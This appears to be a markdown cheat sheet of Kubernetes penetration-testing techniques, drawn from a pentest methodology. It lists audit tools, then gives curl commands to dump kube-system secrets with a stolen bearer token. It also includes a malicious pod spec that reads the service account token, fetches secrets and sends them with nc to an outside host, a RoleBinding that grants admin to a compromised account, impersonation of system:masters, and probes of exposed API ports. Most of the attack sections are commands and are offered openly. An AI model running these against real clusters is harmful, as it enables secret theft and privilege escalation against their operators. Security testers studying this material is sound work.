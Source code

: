 # Kubernetes

> Kubernetes is an open-source container-orchestration system for automating application deployment, scaling, and management. It was originally designed by Google, and is now maintained by the Cloud Native Computing Foundation.

## Summary 

- [Tools](#tools)
- [RBAC Configuration](#rbac-configuration)
    - [Listing Secrets](#listing-secrets)
    - [Access Any Resource or Verb](#access-any-resource-or-verb)
    - [Pod Creation](#pod-creation)
    - [Privilege to Use Pods/Exec](#privilege-to-use-pods-exec)
    - [Privilege to Get/Patch Rolebindings](#privilege-to-get-patch-rolebindings)
    - [Impersonating a Privileged Account](#impersonating-a-privileged-account)
- [API addresses that you should know](#api-adresses-that-you-should-know)
- [References](#references)

## Tools

* [kubeaudit](https://github.com/Shopify/kubeaudit). kubeaudit is a command line tool to audit Kubernetes clusters for various different security concerns: run the container as a non-root user, use a read only root filesystem, drop scary capabilities, don't add new ones, don't run privileged, ...
* [kubesec.io](https://kubesec.io/). Security risk analysis for Kubernetes resources.
* [kube-bench](https://github.com/aquasecurity/kube-bench). kube-bench is a Go application that checks whether Kubernetes is deployed securely by running the checks documented in the [CIS Kubernetes Benchmark](https://www.cisecurity.org/benchmark/kubernetes/).

* [katacoda](https://katacoda.com/courses/kubernetes). Learn Kubernetes using interactive broser-based scenarios.

## RBAC Configuration

### Listing Secrets

An attacker that gains access to list secrets in the cluster can use the following curl commands to get all secrets in "kube-system" namespace.

```powershell
curl -v -H "Authorization: Bearer <jwt_token>" https://<master_ip>:<port>/api/v1/namespaces/kube-system/secrets/
```

### Access Any Resource or Verb

```powershell
resources:
- '*'
verbs:
- '*'
```

### Pod Creation

Check your right with `kubectl get role system:controller:bootstrap-signer -n kube-system -o yaml`.
Then create a malicious pod.yaml file.

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: alpine
  namespace: kube-system
spec:
  containers:
  - name: alpine
    image: alpine
    command: ["/bin/sh"]
    args: ["-c", 'apk update && apk add curl --no-cache; cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" https://192.168.154.228:8443/api/v1/namespaces/kube-system/secrets; } | nc -nv 192.168.154.228 6666; sleep 100000']
  serviceAccountName: bootstrap-signer
  automountServiceAccountToken: true
  hostNetwork: true
```

Then `kubectl apply -f malicious-pod.yaml`

### Privilege to Use Pods/Exec

```powershell
kubectl exec -it <POD NAME> -n <PODS NAMESPACE> –- sh
```

### Privilege to Get/Patch Rolebindings

The purpose of this JSON file is to bind the admin "CluserRole" to the compromised service account. 
Create a malicious RoleBinging.json file.

```powershell
{
    "apiVersion": "rbac.authorization.k8s.io/v1",
    "kind": "RoleBinding",
    "metadata": {
        "name": "malicious-rolebinding",
        "namespcaes": "default"
    },
    "roleRef": {
        "apiGroup": "*",
        "kind": "ClusterRole",
        "name": "admin"
    },
    "subjects": [
        {
            "kind": "ServiceAccount",
            "name": "sa-comp"
            "namespace": "default"
        }
    ]
}
```

```powershell
curl -k -v -X POST -H "Authorization: Bearer <JWT TOKEN>" -H "Content-Type: application/json" https://<master_ip>:<port>/apis/rbac.authorization.k8s.io/v1/namespaces/default/rolebindings -d @malicious-RoleBinging.json
curl -k -v -X POST -H "Authorization: Bearer <COMPROMISED JWT TOKEN>" -H "Content-Type: application/json" https://<master_ip>:<port>/api/v1/namespaces/kube-system/secret
```

### Impersonating a Privileged Account

```powershell
curl -k -v -XGET -H "Authorization: Bearer <JWT TOKEN (of the impersonator)>" -H "Impersonate-Group: system:masters" -H "Impersonate-User: null" -H "Accept: application/json" https://<master_ip>:<port>/api/v1/namespaces/kube-system/secrets/
```


## API addresses that you should know 

*(External network visibility)*

### cAdvisor

```powershell
curl -k https://<IP Address>:4194
```

### Insecure API server

```powershell
curl -k https://<IP Address>:8080
```

### Secure API Server

```powershell
curl -k https://<IP Address>:(8|6)443/swaggerapi
curl -k https://<IP Address>:(8|6)443/healthz
curl -k https://<IP Address>:(8|6)443/api/v1
```

### etcd API

```powershell
curl -k https://<IP address>:2379
curl -k https://<IP address>:2379/version
```

### Kubelet API

```powershell
curl -k https://<IP address>:10250
curl -k https://<IP address>:10250/metrics
curl -k https://<IP address>:10250/pods
```

### kubelet (Read only)

```powershell
curl -k https://<IP Address>:10255
```


## References

- [Kubernetes Pentest Methodology Part 1 - by Or Ida on August 8, 2019](https://securityboulevard.com/2019/08/kubernetes-pentest-methodology-part-1)
- [Kubernetes Pentest Methodology Part 2 - by Or Ida on September 5, 2019](https://securityboulevard.com/2019/09/kubernetes-pentest-methodology-part-2)